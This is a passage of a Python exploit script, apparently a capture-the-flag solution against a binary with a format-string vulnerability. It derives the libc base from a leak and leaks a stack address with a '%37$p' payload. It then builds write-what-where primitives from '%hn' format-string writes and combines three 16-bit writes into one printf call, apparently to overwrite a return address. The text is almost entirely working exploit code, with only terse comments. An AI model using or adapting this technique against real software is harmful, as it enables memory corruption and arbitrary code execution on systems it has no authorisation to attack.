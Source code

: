 ```python
logaddr(libc_leak, "libc leak")
libc.address = libc_leak - (libc.sym.__libc_start_main + 234)
logaddr(libc.address, "libc")

#---=== LEAK STACK ===---
sendString('%37$p')
stack_addr = extract_value()
logaddr(stack_addr, "stack addr")


#----=== write what, where ===----
def write(what, where):
        addr = stack_addr - 0x108
        for i in range(3):
                sendString(f"%{(addr & 0xffff) + 2*i:d}c%37$hn")
                sendString(f"%{(where >> 0x10*i) & 0xffff:d}c%63$hn")

        sendString(f"%{(addr & 0xffff):d}c%37$hn")
        sendString(f"%{(what & 0xffff):d}c%30$hn")

        for i in range(1, 3):
                print(i)
                sendString(f"%{(where + 2*i) & 0xffff:d}c%63$hn")
                sendString(f"%{(what >> 0x10*i) & 0xffff:d}c%30$hn")

def one_call_write(what, where):
#we will use stack indexes 15-17 to write our 3 addresses for the printf call
        stack_15 = stack_addr - 0x120

#write the 3 addresses at indexes 15-17 using the write function we defined earlier
        write(where, stack_15)
        write(where + 2, stack_15+8)
        write(where + 4, stack_15+16)

#now that we have our 3 addresses on the stack, we construct the final write:

#get the 3 parts of our value
        first = (what >> 0x00) & 0xffff
        second = (what >> 0x10) & 0xffff
        third = (what >> 0x20) & 0xffff

#sort from smallest to largest
        parts = [first, second, third]
        parts.sort()

#calculate the differences
        f2s = parts[1] - parts[0]
        s2t = parts[2] - parts[1]

#calculate what will be put in the format string
        value1 = parts[0]
        index1 = 27 + parts.index(first)

        value2 = f2s
        index2 = 27 + parts.index(second)

        value3 = s2t
        index3 = 27 + parts.index(third)

#execute the write
        sendString(f"%{value1}c%{index1}$hn%{value2}c%{index2}$hn%{value3}c%{index3}$hn")

#future return address location
```